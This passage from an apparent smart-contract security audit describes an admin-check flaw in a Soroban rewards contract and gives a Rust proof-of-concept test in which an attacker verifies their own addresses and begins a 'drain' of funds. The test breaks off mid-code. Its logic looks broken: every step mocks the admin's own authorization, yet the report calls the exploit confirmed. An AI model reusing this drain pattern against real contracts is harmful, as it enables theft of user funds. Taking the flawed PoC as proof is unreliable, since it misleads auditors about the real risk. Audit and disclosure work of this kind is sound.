 #### Affected Functions
```rust
// In admin.rs - VULNERABLE
fn approve_verification(env: Env, user: Address) -> Result<(), Error> {
    AdminModule::verify_admin(&env)?; // Only checks signature, not caller identity
    // Attacker can verify any address
}

// In rewards.rs - VULNERABLE  
fn distribute_rewards(env: Env, user: Address, amount: i128) -> Result<(), Error> {
    AdminModule::verify_admin(&env)?; // Only checks signature, not caller identity
    // Attacker can distribute funds to any address
}
```

#### Proof of Concept
The vulnerability has been confirmed through testing:

```rust
#[test]
fn test_admin_function_exploitation_privilege_escalation() {
    let env = Env::default();
    let (contract, admin, _) = test_setup::setup_contract(&env);

    // Create attacker and their other addresses
    let attacker = Address::generate(&env);
    let attacker_address1 = Address::generate(&env);
    let attacker_address2 = Address::generate(&env);

    // Register attacker and their addresses
    contract.register_with_referral(&attacker, &admin, &String::from_str(&env, "proof123"));
    contract.register_with_referral(&attacker_address1, &admin, &String::from_str(&env, "proof124"));
    contract.register_with_referral(&attacker_address2, &admin, &String::from_str(&env, "proof125"));

    // STEP 1: Attacker exploits admin functions to verify themselves
    env.mock_auths(&[soroban_sdk::testutils::MockAuth {
        address: &admin, // Admin signature
        invoke: &soroban_sdk::testutils::MockAuthInvoke {
            contract: &contract.address,
            fn_name: "approve_verification",
            args: (attacker.clone(),).into_val(&env),
            sub_invokes: &[],
        },
    }]);
    contract.approve_verification(&attacker);

    // STEP 2: Attacker verifies their other addresses
    env.mock_auths(&[soroban_sdk::testutils::MockAuth {
        address: &admin,
        invoke: &soroban_sdk::testutils::MockAuthInvoke {
            contract: &contract.address,
            fn_name: "approve_verification",
            args: (attacker_address1.clone(),).into_val(&env),
            sub_invokes: &[],
        },
    }]);
    contract.approve_verification(&attacker_address1);

    // STEP 3: Attacker distributes funds to all their addresses
    let drain_amount = 999999;
    env.mock_auths(&[soroban_sdk::testutils::MockAuth {
        address: &admin,
```